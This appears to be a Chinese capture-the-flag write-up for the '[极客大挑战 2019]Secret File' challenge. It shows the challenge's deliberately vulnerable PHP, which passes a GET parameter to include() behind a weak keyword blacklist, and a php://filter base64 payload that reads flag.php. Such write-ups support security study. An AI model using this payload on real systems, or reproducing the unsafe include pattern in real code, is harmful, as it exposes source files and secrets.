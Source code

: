 # \[极客大挑战 2019]Secret File

## \[极客大挑战 2019]Secret File

## 考点

* 文件包含配合伪协议读取文件
* http

## wp

抓包发现隐藏的链接Archive\_room.php，访问发现新的链接action.php，接着抓包

![](<../.gitbook/assets/image (31).png>)

访问secr3t.php

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
```

访问`secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php`即可
